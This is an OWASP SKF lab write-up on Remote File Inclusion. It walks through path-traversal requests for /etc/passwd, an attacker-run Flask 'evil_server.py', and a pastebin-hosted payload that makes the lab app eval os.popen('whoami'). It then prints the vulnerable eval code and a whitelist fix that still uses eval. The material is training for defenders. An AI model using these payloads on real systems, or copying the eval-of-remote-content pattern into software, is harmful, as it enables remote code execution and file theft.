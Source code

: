 # KBID 173 - Remote File Inclusion


## Running the app



```text
$ sudo docker pull blabla1337/owasp-skf-lab:rfi
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:rfi
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker Image and write-up thanks to ContraHack!](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

Remote File Inclusion (also known as RFI) is the process of including files, that are supplied into the application and loaded from an external (remote) source, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

Warning: To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

Some Examples:

```text
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd

Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```

## Exploitation

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

This can lead to something as outputting the contents of the file, but depending on the severity, it can also lead to:

Code execution on the web server

Code execution on the client-side such as JavaScript

which can lead to other attacks such as:

Cross-site scripting (XSS)

Denial of Service (DoS)

Sensitive Information Disclosure

Let us see how can we exploit the file inclusion vulnerability in a real world scenario, the application here allows us to run 2 commands from the drop down list. One is running Date and the other is Calendar.

![](.gitbook/assets/RFI1.png)

![](.gitbook/assets/RFI2.png)

When we will have a look in our intercepting proxy we can see that the application uses a predefined file that contains the command to execute and prints the results of it.

![](.gitbook/assets/RFI3.png)


To exploit Remote File Inclusion vulnerability, we have two approaches documented in detail below:


1. Use pastebin.com to serve the file including system command and include the pastebin raw url:

For E.g.: You may copy the code below to pastebin.com ans save. Then include the raw URL which would look something like "https://pastebin.com/raw/ZLeFHRNf":


```
os.popen('whoami').read()
```

![](.gitbook/assets/RFI31.png)

2. Creating your own webserver: In this case you can use Python Flask to create a small webserver that serves your file. We name it evil_server.py


```python
from flask import Flask, request, url_for, render_template, redirect


app = Flask(__name__)
app.config['DEBUG'] = True

@app.route("/evil.py")
def start():
    return render_template("evil.py")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)

```
Then we create our folder template where we will put our evil.py file with the below content.

```python
5 + 5
```

Now we are ready to start our evil_server.py and try to make the application load our evil python file and hopefully it will get executed.

![](.gitbook/assets/RFI4.png)

Our remote file inclusion worked and the application seems to load python files and eval() the content of them. This means we can also inject a system command in our evil.py file.

```python
os.popen('whoami').read()
```

![](.gitbook/assets/RFI5.png)

{% hint style="success" %}
 Success! As we observed, we can include our own files through RFI.
{% endhint %}

## Mitigation

The most effective solution to eliminate file inclusion vulnerabilities is to avoid passing user-submitted input to any filesystem/framework API. If this isn't possible preventing local file inclusion can be achieved by maintaing a list of allowed files (Whitelisting) and by indexing those files to include them into the application.

Looking at the following vulnerable code, the user submitted input is not properly sanitized so we have choosen to create a whitelist of the filenames.
```
@app.route("/cmd", methods=['POST'])
def cmd():
    filename = request.form['filename']
    try:
        if "http" not in str(urlparse(filename).scheme):
            host = request.url[:-4]
            filename = host+"/static/" + filename
            result = eval(requests.get(filename).text)
            return render_template("index.html", result=result)
        else:
            result = eval(requests.get(filename).text)
            return render_template("index.html", result=result)
    except Exception:
        return render_template("index.html", result="Unexpected error during the execution of the predefined command.")
```


Here we have created a whitelist of allowed filenames and we check for each request whether the supplied filename is present in the list or not.
```
@app.route("/cmd", methods=['POST'])
def cmd():
    wlfn=['text/command1.txt','text/command2.txt']
    filename = request.form['filename']
    if filename in wlfn:
        if "http" not in str(urlparse(filename).scheme):
            host = request.url[:-4]
            filename = host+"/static/" + filename
            result = eval(requests.get(filename).text)
            return render_template("index.html", result=result)
        else:
            result = eval(requests.get(filename).text)
            return render_template("index.html", result=result)
    else:
        return render_template("index.html", result="Unexpected error during the execution of the predefined command.")
```

still, it has a malicious eval function so can u think of another way of prevention like the date library in python.

## Additional sources

https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion
